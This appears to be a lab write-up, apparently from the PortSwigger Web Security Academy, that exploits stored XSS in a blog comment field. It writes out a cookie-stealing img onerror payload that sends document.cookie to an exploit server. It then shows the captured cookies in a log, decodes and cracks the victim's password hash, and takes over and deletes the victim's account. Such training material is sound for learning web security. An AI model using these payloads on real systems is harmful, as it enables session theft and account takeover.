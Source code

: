 ```
```
when we open the comment page in the browser we get, as expected, a pop-up.so we know for sure the **comment** parameter is Vulnerable. great. lets abuse it.

# B
we store another XSS - this time one that extract user cookies:
```
postId=4&comment=<script>alert(document.cookie)</script>&name=4&email=4%404.com&website=
```
in the pop-up we get 
```
stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
```
just the cookie we were looking for!

now we need to exfiltrate the cookie value out. lets use a \<onerror> command with our exploit server address:
```htm
<img src=x onerror=this.src='https://exploit-0ace00bc04e3d37ac0781b29014c0061.web-security-academy.net/exploit?'+document.cookie;>
```
we check our exploit server **Access log**:
```
10.0.4.211      2022-10-01 17:26:19 +0000 "GET /exploit?secret=nQOmmQtqig7m1YdTaCfrVpU7TCVGo30F;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.125 Safari/537.36"
```
lets copy the cookie:
```
secret=OTrpkLUsCRvNvFTLRH5hqwft2k465jNx;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
```
we turn interception on and from my-account we press the link to delete account and intercept  **POST /my-account/delete HTTP/1.** request. we send it to **repeater** and drop the request. now we can log-off the account for safty (we will use the session token so better not delete ourselves by mistake).

in the repeater we change the stay-logged-in value:
```
Cookie: session=8y2B1uWKUR74XadOOpQlxHDIBivoapVY; stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
```

we get another screen asking for password for extra cautions. basterds.
at least we can verify they recognise us as the victim:
```htm
</p>
<a href="/my-account?id=carlos">My account</a><p>
```

lets extract the password from cookie:
base64 decoding yields:
```
carlos:26323c16d5f4dabff3bb136f2460a943
```
lets check hashed password at **https://hashes.com** and it will yeild:
```
26323c16d5f4dabff3bb136f2460a943:onceuponatime
```
lets repete the deletion process this time on the website and use the newly aquired password for login to carlos and delete his account
